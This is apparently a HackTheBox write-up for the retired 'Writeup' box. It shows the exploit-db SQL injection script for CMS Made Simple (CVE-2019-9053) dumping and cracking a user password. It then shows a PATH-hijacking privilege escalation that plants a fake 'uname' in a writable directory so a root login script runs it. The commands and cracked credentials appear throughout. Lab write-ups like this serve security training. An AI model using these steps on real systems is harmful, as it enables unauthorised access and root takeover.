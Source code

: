 ```yaml
---
Category: B2R
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - CMS-Made-Simple
  - CVE-2019-9053
  - SQL-Injection
  - relative-paths-hijacking-privesc
  - Linux
---
```

### Improved ability

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools

- nmap
- searchsploit
- pspy64

---

## Introduction & Foothold:

Let’s start with a common full **nmap** scan on the box:

```bash
$ nmap -A 10.10.10.138
```

![1.png](../../zzz_res/attachments/1.png)

The only available ports are the **port 22** (with *OpenSSH 7.4p1*) and the **port 80**, running *Apache httpd 2.4.25*. Because of this version of OpenSSH doesn’t have known vulnerability, let’s analyze the root and `/writeup/` folder (contained into the *robots.txt*) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.

![2.png](../../zzz_res/attachments/2.png)

Let’s move analyze the `/writeup/` folder:

![3.png](../../zzz_res/attachments/3.png)

Here we can find some old writeups, but nothing very useful. However, looking at the **source code**, we are able to find the first important information: the **CMS type**.

![4.png](../../zzz_res/attachments/4.png)

Now that we know our target use **CMS Made Simple**, we can search online for public exploit. Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```

## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (*46635*) is valid for every version under the 2.2.10. Download and execute the script!

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46635)

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```

## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.

![5.png](../../zzz_res/attachments/5.png)

After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed. 

The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in `$PATH` and before the script identifies the original uname binary, *we can run arbitrary code as root and execute our escalation* (that because the `10-uanme` process run with *UID=0*, so it runs as root)

`$PATH` contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

# Trophy

>[!quote]
>The only way of discovering the limits of the possible is to venture a little way past them into the impossible.
>
>\- Arthur C. Clarke
